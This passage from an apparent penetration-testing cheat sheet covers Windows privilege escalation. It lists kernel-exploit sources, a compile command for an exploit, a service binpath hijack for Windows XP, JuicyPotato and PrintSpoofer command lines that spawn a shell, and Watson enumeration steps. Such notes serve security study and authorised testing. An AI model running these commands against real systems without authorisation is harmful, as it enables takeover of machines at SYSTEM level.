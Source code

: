         - sudoedit 
- Check $PATH / import library permission
	- Program Hijack
- Check backup file

-----

### Windows

#### **Kernel Exploit**

* Github
  - [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)

Compile Windows Kernel exploit
```
i686-w64-mingw32-gcc 40564.c -o exploit.exe -lws2_32
```

-----

#### Exploit

- [Windows XP](https://sohvaxus.github.io/content/winxp-sp1-privesc.html)
    - `net start SSDPSRV`
    - `sc config SSDPSRV start= auto`
    - `sc qc SSDPSRV`
    - `net start SSDPSRV`
    - `sc config upnphost binpath= "C:\{shell_exe}"`
    - `sc config upnphost obj= ".\LocalSystem" password= ""`
    - `sc qc upnphost`
    - `net start upnphost`
- [JuicyPotato](https://github.com/ohpe/juicy-potato)
    - User have `SeImpersonate`, `SeAssignPrimaryToken`
    - `JuicyPotato.exe -l 1337 -p shell.exe -t * -c {CLSID}`
    - Version < Windows Server 2019 & Windows 10 Build 1809
    - CLSID https://ohpe.it/juicy-potato/CLSID/
- [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
    - Windows Server 2019 and Windows 10
    - User have `SeImpersonatePrivilege`
    - `PrintSpoofer.exe -i -c cmd`
- [MS15-051](https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip)
    - `ms15-051x64.exe whoami`
- [Cerrudo](https://github.com/Re4son/Churrasco)
    - Windows Server 2003
- [LOLBAS](https://lolbas-project.github.io/)

-----

#### Watson

- Check .NET Version
    - `reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"`
    - Path `C:\Windows\Microsoft.NET\Framework`
    - Set target framework to right version
- Check x86 or x64
    - `systeminfo`
